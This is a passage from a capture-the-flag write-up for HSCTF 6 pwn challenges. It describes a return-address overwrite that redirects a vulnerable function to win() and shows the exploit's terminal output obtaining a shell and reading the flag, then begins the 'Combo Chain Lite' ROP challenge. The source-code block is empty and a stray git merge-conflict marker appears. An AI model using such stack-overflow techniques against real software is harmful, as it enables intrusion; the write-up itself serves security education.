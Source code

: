 ```python
```

The exploit basically connects to the ip and port given to us in the challenge, and sends 20 A's, followed by the address of the `win()` function. The address overwrite's the return pointer of `vuln()`.
What this will do is it will cause the `vuln()` function to jump to the `win()` function instead of back to the `main()` function after it has finished executing.

Running the exploit gives us a shell, which we then use to get the flag:

```shell
» python exploit.py
[+] Opening connection to pwn.hsctf.com on port 1234: Done
[*] '/home/faithlesss/Documents/ctfs/hsctf-6/pwn/return-to-sender/bin/return-to-sender'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
Alright, to AAAAAAAAAAAAAAAAAAAA\xb6\x91\x0 it goes!
$ ls
bin
dev
flag
lib
lib32
lib64
return-to-sender
return-to-sender.c
$ cat flag
hsctf{fedex_dont_fail_me_now}
$  
```

Flag: `hsctf{fedex_dont_fail_me_now}`

# Combo Chain Lite
<a href="{{ page.url }}#title">Back to top ↑</a>

### Challenge
<<<<<<< HEAD

>Written by: Ptomerty
>
>Training wheels!
>
>Hint: What's a ROP?
>
>`nc pwn.hsctf.com 3131`

The challenge archive contains the following files.
```
combo-chain-lite
combo-chain-lite.c
```
